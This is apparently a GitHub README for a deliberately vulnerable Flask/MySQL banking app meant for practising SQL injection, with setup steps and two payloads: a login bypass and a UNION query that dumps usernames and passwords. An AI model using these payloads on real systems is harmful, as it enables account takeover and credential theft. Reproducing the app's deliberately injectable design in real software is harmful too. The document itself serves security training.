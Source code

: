 # broke-bank
Mock banking application built with Flask and MySQL. Use this to practice SQL injection!

# Setup

## 1. Install MySQL
https://dev.mysql.com/downloads/installer/

## 2. Clone repository
```shell
git clone https://github.com/anilmawji/broke-bank.git; cd broke-bank
```

## 3. Create and activate virtual environment (optional, recommended)
   
macOS/Linux:
```shell
python -m venv .venv && source .venv/Scripts/activate
```
Windows:
```shell
python -m venv .venv && .venv\Scripts\activate
```

## 4. Install dependencies
```shell
pip install -r requirements.txt
```

## 5. Create .env file for environment variables (place in /broke-bank/)
Make sure to replace `myusername` and `mypassword` with your MySQL credentials.
```env
FLASK_ENV=development
FLASK_APP=main.py
MYSQL_USER=myusername
MYSQL_PASSWORD=mypassword
```

## 6. Run bank-data.sql to create the database
Make sure the MySQL server is running (MySQL80 service on Windows)

## 7. Start server (local deployment)
```shell
flask run
```

# SQL Injection Examples

User login bypass (make sure to include the space at the end!)
```sql
a' or 1=1 -- 
```
![image](https://github.com/user-attachments/assets/5fdf6609-cd84-4420-9c48-b4b0744d09fa)

Transaction history search bar - SQL version and user info dump
```sql
3' union select null, user_id, version(), username, user_password from users;
```
![image](https://github.com/user-attachments/assets/4fc1abf2-d018-4dde-b240-09147835e81a)

